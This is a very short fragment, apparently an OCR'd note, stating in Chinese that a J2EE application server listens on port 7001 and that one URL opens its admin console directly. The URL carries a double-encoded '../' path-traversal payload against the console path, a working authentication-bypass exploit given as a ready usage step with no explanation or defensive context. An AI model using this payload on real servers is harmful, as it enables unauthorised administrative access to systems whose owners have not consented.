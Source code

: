 	J2EE应用服务器，默认端口7001
	访问URL，直接打开后台页面
	http://192.168.1.10:7001/console/css/%252e%252e%252fconsole.portal